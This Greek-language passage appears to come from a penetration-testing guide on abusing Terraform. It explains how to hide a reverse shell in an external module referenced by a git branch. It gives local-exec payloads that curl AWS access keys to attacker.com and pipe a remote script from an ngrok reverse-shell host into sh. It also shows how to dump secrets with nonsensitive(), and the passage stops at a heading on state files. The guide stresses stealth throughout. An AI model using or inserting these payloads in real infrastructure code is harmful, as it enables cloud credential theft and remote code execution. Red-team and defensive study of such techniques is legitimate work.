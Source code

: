 Μπορείτε να βρείτε ένα παράδειγμα στο [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

**Χρησιμοποιώντας μια εξωτερική αναφορά**

Και οι δύο αναφερόμενες επιλογές είναι χρήσιμες αλλά όχι πολύ κρυφές (η δεύτερη είναι πιο κρυφή αλλά πιο περίπλοκη από την πρώτη). Μπορείτε να εκτελέσετε αυτήν την επίθεση ακόμα και με **πιο κρυφό τρόπο**, ακολουθώντας αυτές τις προτάσεις:

* Αντί να προσθέσετε το rev shell απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε έναν εξωτερικό πόρο** που περιέχει το rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα rev shell στο [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

* Στον εξωτερικό πόρο, χρησιμοποιήστε τη δυνατότητα **ref** για να κρύψετε τον **κώδικα terraform rev shell σε ένα branch** μέσα στο repo, κάτι σαν: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Η εντολή Terraform apply θα εκτελεστεί για να εφαρμοστούν όλες οι αλλαγές, μπορείτε επίσης να την εκμεταλλευτείτε για να αποκτήσετε RCE εισάγοντας **ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά πρέπει να βεβαιωθείτε ότι κάποιο payload όπως τα παρακάτω καταλήγει στο αρχείο `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτήν την επίθεση με **πιο διακριτικό τρόπο χρησιμοποιώντας εξωτερικές αναφορές**.

## Secrets Dumps

Μπορείτε να έχετε **τιμές μυστικών που χρησιμοποιούνται από το terraform να εκτυπώνονται** εκτελώντας `terraform apply` προσθέτοντας στο αρχείο terraform κάτι σαν:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Κατάχρηση Αρχείων Κατάστασης Terraform
